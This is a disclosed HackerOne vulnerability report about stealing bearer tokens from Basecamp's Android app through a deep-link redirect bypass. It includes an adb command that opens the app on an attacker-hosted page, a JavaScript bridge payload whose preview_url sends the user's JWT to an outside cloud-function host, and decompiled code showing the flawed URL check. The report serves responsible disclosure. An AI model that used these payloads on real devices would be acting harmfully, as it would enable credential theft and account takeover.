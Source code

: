 # Able to steal bearer token from deep link

## Report Details
- **Report ID**: 1372667
- **URL**: https://hackerone.com/reports/1372667
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-10-17T19:46:30.909Z
- **Disclosed**: 2022-03-27T18:33:05.264Z

## Reporter
- **Username**: danielllewellyn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
# Pre-requisities

Prior to exploitation you would be required to know the "account id" of the user that you are attacking. Whilst this makes it difficult to attack an application in a generic way - the account is not secret information as it is included in any links to a user's basecamp organisation. E.g

https://3.basecamp.com/5218370/

# Attack

The attack involves forcing the user to enter the application either by starting an intent from an application on the device already, or by triggering a deep link (which can be done by with e.g. a phishing email) . The link should be in this format:

https://3.basecamp.com/<accountId>/verify?proceed_to=<attacker controlled URL>

Here is a sample adb command that can be used to test the attack:

```sh
adb shell am start -n com.basecamp.bc3/com.basecamp.bc3.activities.BasecampUrlFilterActivity https://3.basecamp.com/5218370/verify?proceed_to=https://haystack-production-storage.s3.eu-west-2.amazonaws.com/attack.html
```

The second part of the attack involves redirecting someone using the turbo links API that is exposed through the javascript native bridge. Here is the example:

```js
<script>NativeApp.openNativeImageViewer("[{'download_url': 'https://us-central1-andro-3982e.cloudfunctions.net/home/5218370/image.jpg', 'preview_url': 'https://us-central1-andro-3982e.cloudfunctions.net/home/5218370/image.jpg', 'caption':'ViewImage'}]", 0)</script>
```

This script executes 'openNativeImageViewer' and passes the download_url and preview_url. The preview_url is the most interesting, as it requires not user interaction. In order to render a preview image, the basecamp app sends the JWT header to the site, meaning that the 'preview_url' will receive that header.

# Vulnerability

The clearest vulnerability is that the check to determine if a URL is an 'internal' URL allows it to by bypassed in a limited way by using the /verify? url along with a proceed_to that is attacker controlled. 

```java
if (TuroblinksUrlHandler.contains(url, "/verify?", true)) {
                C3982h.nullCheck(url, "$this$proceedToParam");
                C3982h.nullCheck(url, "$this$extractQueryParam");
                C3982h.nullCheck("proceed_to", "queryKey");
                String queryParameter = url.toUri().getQueryParameter("proceed_to");
                url = queryParameter != null ? UrlKt.parseUrl(queryParameter) : null;
                C3982h.nullCheck(url);
            }

 Intent intent10 = new Intent(context, WebViewActivity.class);
                    C1071a.addUrlsToIntent(url, intent10, "intentUrl", "intentApiUrl", null);
                    return intent10;
```

## Impact

An attacker could, without physical access to the device, retrieve a user's authentication tokens. A potentially compounding factor is that once a user has been exploited, it might be possible to continue the chain of attack by having that compromised user share links with other users who trust links sent by the compromised user.

## Attachments
- attack.html
- Screen_Recording_2021-10-17_at_20.28.23.mov
